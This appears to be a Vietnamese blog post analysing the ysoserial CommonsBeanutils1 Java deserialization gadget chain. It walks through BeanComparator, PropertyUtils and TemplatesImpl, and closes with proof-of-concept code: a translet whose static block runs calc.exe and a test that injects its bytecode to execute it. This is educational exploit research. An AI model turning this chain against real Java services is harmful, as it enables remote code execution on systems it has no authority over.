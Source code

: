 +++
title = "[Java Deserialization] CommonsBeanutils1 exploit chain analysis"
description = ""
type = ["posts","post"]
tags = [
    "infosec",
    "java",
]
date = "2022-01-19"
categories = [
    "infosec",
    "java",
]
series = ["java"]
[ author ]
  name = "Quac Tran"
+++
Các lỗ hổng liên quan tới deserialization trên Java đã trở thành một vấn đề bảo mật nóng trong những năm gần đây. Quá trình deserialize không an toàn có thể dẫn đến các lỗ hổng nghiêm trọng như thực thi mã từ xa. Ysoserial là một dự án được tạo bởi frohoff, một người phát hiện ra lỗ hổng deserialization trên Java. Bài viết này sẽ phân tích về chain CommonsBeanutils1

Apache Commons Beanutils là một dự án khác thuộc bộ công cụ Apache Commons cung cấp một số phương thức thao tác trên các đối tượng lớp Java thông thường (còn được gọi là JavaBeans).

### Gadget chain
```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                siftDownUsingComparator()
                    BeanComparator.compare()
                        TemplatesImpl.getOutputProperties()
                            TemplatesImpl.newTransformer()
                                TemplatesImpl.getTransletInstance()
                                    TemplatesImpl.defineTransletClasses()
                                        TemplatesImpl.TransletClassLoader.defineClass()
                                            Pwner*(Javassist-generated).<static init>
                                                Runtime.exec()
```
### Phân tích
Ví dụ, đây là lớp JavaBean đơn giản nhất

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/1.jpg)

Commons-beanutils cung cấp một phương thức tĩnh PropertyUtils.getProperty cho phép người dùng gọi trực tiếp phương thức getter của bất kỳ JavaBean nào, chẳng hạn như:

```
PropertyUtils.getProperty (Object bean, String name)
```

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/2.jpg)

Lúc này, commons-beanutils sẽ tự động tìm phương thức getter của thuộc tính name, tức là getName, rồi gọi nó để lấy giá trị trả về. Bằng cách này, người dùng có thể dễ dàng gọi getter của bất kỳ đối tượng nào.

Trong phương thức so sánh của lớp BeanComparator, có một lệnh gọi đến hàm PropertyUtils.getProperty, được thực hiện như sau:

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/3.jpg)

Phương thức này truyền vào 2 đối tượng. Nếu this.property là null thì so sánh hai objects trực tiếp với nhau, ngược lại this.property khác null, sẽ sử dụng PropertyUtils.getProperty để lấy giá trị property của hai đối tượng và so sánh chúng với nhau. Như đã nói ở trên, PropertyUtils.getProperty sẽ tự động gọi phương thức getter của JavaBean, đây là key để thực thi code tuỳ ý. 

Vậy có bất kì phương thức getter nào có thể thực thi mã tuỳ ý không?

**TemplatesImpl chain**

```
TemplatesImpl#getOutputProperties ->
TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() -> 
TemplatesImpl#defineTransletClasses()-> 
TransletClassLoader#defineClass()
```

Chain thức này đã được tìm thấy trước đó. PropertyUtils.getProperty(o1, property) : Khi o1 được truyền vào là một TemplatesImpl object và property có giá trị là outputProperties, phương thức getter sẽ tự động gọi để thực thi phương thức TemplatesImpl#getOutputProperties(). Trong nội bộ TemplatesImpl#getOutputProperties() nó lại gọi đến newTransformer()

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/4.jpg)

Mà TemplatesImpl#newTransformer() thường được sử dụng để thực thi bytecodes độc hại:

```
TemplatesImpl#newTransformer() ->
```
![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/5.jpg)

TemplatesImpl#getTransletInstance() -> 

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/6.jpg)

TemplatesImpl#defineTransletClasses()-> 

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/7.jpg)

TransletClassLoader#defineClass()

Xây dựng TemplatesImpl

```
TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates,"_name", "Pwnr");
setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
setFieldValue(templates,"_bytecodes",new byte[][]{malicious_bytes});
PropertyUtils.getProperty(templates,"outputProperties");
```

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/8.jpg)

Và sau đó truyền đối tượng TemplatesImpl vừa tạo vào BeanComparator

```
BeanComparator beanComparator = new BeanComparator("outputProperties");
```

**PriorityQueue**

ReadObject trong PriorityQueue sẽ gọi hàm heapify để sắp xếp các phần tử, sau đó kích hoạt phương thức comparator.compare tạo nên một chuỗi hoàn hảo. Chắc vẫn còn cách khác để trigger được comparator.compare nhưng trong gadget chain này tác giả đã sử dụng cách thức này. Càng phân tích càng thấy hâm mộ những con người đi trước sao có thể tìm được như vậy.

```
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
```

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/9.jpg)

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/10.jpg)

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/11.jpg)

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/12.jpg)

Chain hoàn chỉnh:

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/13.jpg)

Hoàn hảo!

Code thao khảo:

**RunCmd.class**
```
package com.summer.cb1;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class RunCmd extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd","/c","calc.exe"});
        } catch (Exception e){
            e.printStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```

**TempletesTest class**
```
package com.summer.cb1;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.PropertyUtils;
import org.junit.Test;

import java.lang.reflect.Field;

public class TempletesTest {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] classToBytes() throws Exception{
        byte[] bytes = ClassPool.getDefault().get(RunCmd.class.getName()).toBytecode();
        return bytes;
    }

    @Test
    public void test() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(templates,"_bytecodes",new byte[][]{classToBytes()});
        PropertyUtils.getProperty(templates,"outputProperties");
    }

    
}

```

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/14.jpg)

Học được: 

- Kĩ năng nghiên cứu, phân tích vấn đề
- Học được nhiều điều về java và phân tích gadget chain trong java deserialization.

Ngày đầu ngồi đọc không hiểu gì. Ngày 2 bắt đầu vào phân tích thấy rất hay và vỡ ra nhiều điều. Mình sẽ phân tích các gadget chain khác hoặc một CVE nào đó về java deserialization trong thời gian tới.

Tham khảo (Để hiểu được không biết tôi đã đọc bao nhiêu bài viết của các pháp sư Trung Hoa nữa!)

Cảm ơn bạn đã đọc tới đây!


